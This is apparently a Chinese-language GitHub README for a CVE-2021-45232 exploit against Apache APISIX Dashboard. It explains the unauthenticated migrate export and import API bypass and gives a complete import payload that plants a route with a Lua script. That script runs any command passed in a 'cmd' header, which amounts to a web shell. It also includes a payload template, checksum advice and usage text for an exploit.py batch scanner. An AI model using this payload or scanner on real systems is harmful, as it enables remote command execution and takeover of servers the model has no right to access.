


参考链接： https://xz.aliyun.com/t/10738  

## 漏洞概述 ##
该漏洞的存在是由于 Manager API 中的错误。Manager API 在 gin 框架的基础上引入了 droplet 框架，所有的 API 和鉴权中间件都是基于 droplet 框架开发的。但是有些 API 直接使用了框架 gin 的接口，从而绕过身份验证。CVE编号为：CVE-2021-45232  


影响版本
```
Apache APISIX Dashboard < 2.10.1
```

修复方案
* 升级最新版本

简单来说就是俩关键的API可以未授权访问
```text
/apisix/admin/migrate/export
/apisix/admin/migrate/import
```

还有一个很关键的点就是官方允许执行lua脚本
payload：
```text
{"Counsumers":[],"Routes":[{"id":"402804434286822756","create_time":1647949944,"update_time":1647949944,"uris":["/dc2dc"],"name":"hf3e4K","methods":["GET","POST","PUT","DELETE","PATCH","HEAD","OPTIONS","CONNECT","TRACE"],"script":"local file = io.popen(ngx.req.get_headers()['cmd'],'r') \n local output = file:read('*all') \n file:close() \n ngx.say(output)","status":1}],"Services":[],"SSLs":[],"Upstreams":[],"Scripts":[],"GlobalPlugins":[],"PluginConfigs":[]};
```
创建成功后访问：`dc2dc header:cmd=<command>` #即可执行命令  

payload模板
```text
{"Counsumers":[],"Routes":[],"Services":[],"SSLs":[],"Upstreams":[],"Scripts":[],"GlobalPlugins":[],"PluginConfigs":[]}
```
可以访问/export看人家写好的配置导出，然后贴进Routes里，然后在添加script写你的内容

**payload需要重新计算checksum值**,其他站就可以用这个计算好的  

```text
usage:python exploit.py -u <url> #单个url检测
usage:python exploit.py -f <file> #批量检测
Usage: exploit.py [options]

Options:
  -h, --help  show this help message and exit
  -u URL      目标url
  -f FILE     批量检测
```

